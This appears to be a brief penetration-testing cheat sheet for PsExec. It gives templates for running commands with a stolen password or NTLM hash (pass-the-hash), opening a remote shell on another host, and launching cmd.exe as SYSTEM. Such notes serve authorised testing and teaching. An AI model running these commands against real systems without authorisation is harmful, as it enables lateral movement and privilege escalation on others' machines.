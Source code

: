 ### Source
https://live.sysinternals.com/PsExec.exe  
https://live.sysinternals.com/PsExec64.exe  

### Run command as another user using a password or hash
```
.\psexec.exe -accepteula -u <user> -p <lm>:<ntlm> <command>
```

### Open remote shell
```
.\psexec.exe -accepteula -u <domain>\<user> -p <password> \\<rhost>
```

### Start cmd.exe as nt authority\system
```
.\psexec.exe -i -d -s cmd.exe
```

